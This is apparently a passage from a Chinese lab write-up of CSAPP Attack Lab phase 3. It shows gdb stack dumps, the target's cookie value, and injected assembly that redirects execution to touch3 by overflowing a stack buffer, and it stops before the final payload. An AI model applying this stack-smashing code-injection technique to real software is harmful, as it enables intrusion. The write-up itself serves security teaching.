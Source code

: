 ```
(gdb) x/48xb 0x5561dc78
0x5561dc78:     0x35    0x39    0x62    0x39    0x39    0x37    0x66    0x61
0x5561dc80:     0xbf    0x78    0xdc    0x61    0x55    0x48    0x83    0xec
0x5561dc88:     0x08    0xc7    0x04    0x24    0xfa    0x18    0x40    0x00
0x5561dc90:     0xc3    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0x5561dc98:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0x5561dca0:     0x80    0xdc    0x61    0x55    0x00    0x00    0x00    0x00
```

而这里我们打印值后发现我们的`%edi`所指向的字符串如下：

```
(gdb) x/s $rdi
0x5561dc78:     "59b997fa\277x\334aUH\203\354\b\307\004$\372\030@"
```

而`cookie`的值如下：

```
(gdb) p /x cookie
$14 = 0x59b997fa
```

但是后来这个`buf`的空间就变成了这样：

```
5: x/48xb 0x5561dc78
0x5561dc78:     0x00    0x2e    0x40    0xcb    0xed    0x3e    0x25    0xb2
0x5561dc80:     0x78    0xdc    0x61    0x55    0x00    0x00    0x00    0x00
0x5561dc88:     0xe8    0x5f    0x68    0x55    0x00    0x00    0x00    0x00
0x5561dc90:     0x02    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc98:     0x16    0x19    0x40    0x00    0x00    0x00    0x00    0x00
0x5561dca0:     0x00    0x60    0x58    0x55    0x00    0x00    0x00    0x00
```

但是我们后来发现，这里栈的内容被完全改变了，而且字符串的后面忘了加`\0`字符。所以这里是有一些问题的。

#### 正确的解答

经过查阅一些[网上的资料](https://zhuanlan.zhihu.com/p/60724948)发现，我在阅读 C 语言代码的时候忽略了这 2 行：

```c
char cbuf[110];
/* Make position of check string unpredictable */
char *s = cbuf + random() % 100;
```

那么`hexmatch`和`strncmp`中分配的空间就是随机的。那么我们所做出的改变应该是让插入的字符串放在父函数`test`的位置，然后让`%rdi`指向`test`栈空间中的位置。`test`函数的位置在返回地址下面，那么应该是`buf + 48`即`0x5561dca8`。其字符`bf 78 dc 61 55 48 83 ec 00`应该在返回地址后面。而攻击代码也应该改为：

```
movl $0x5561dca8,%edi
subq $0x8,%rsp
movl $0x4018fa,(%rsp)
ret
```

中间两行代码可以改为`pushq $0x4018fa`。由此，我们在`ph3.s`中放入如下内容：
